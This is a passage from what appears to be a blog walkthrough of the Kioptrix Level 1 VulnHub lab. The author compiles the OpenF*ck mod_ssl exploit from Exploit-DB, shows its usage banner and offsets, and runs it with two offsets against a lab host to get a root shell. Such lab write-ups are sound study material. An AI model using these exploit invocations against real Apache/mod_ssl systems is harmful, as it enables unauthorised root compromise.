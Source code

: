 To keep things clear on my Kali VM, I usually name the exploits after their EDB-ID number. Once 
compiled, running the program without any parameters prints a friendly usage text:
```
./mod_ssl_exploit 

*******************************************************************
* OpenF*ck v3.0.4-root priv8 by SPABAM based on openssl-too-open  *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./mod_ssl_exploit target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
        ...
        0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
        0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
        ...

F*ck to all guys who like use lamah ddos. Read SRC to have no surprise
```
Based on the output from nmap earlier, we're looking at RedHat and Apache 1.3.20. Here goes nothin:
```
./mod_ssl_exploit 0x6a 10.0.100.25 443 -c 40-50
```
No dice...next!
```
./mod_ssl_exploit 0x6b 10.0.100.25 443 -c 40-50
```
Great success, and in proper poor configuration fashion Apache is running as root!
![Glorious, glorious root shell!](/assets/images/kioptrix-mod_ssl-exploit.png)


[1]: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
[2]: https://www.exploit-db.com/exploits/47080
[3]: /disclaimer/
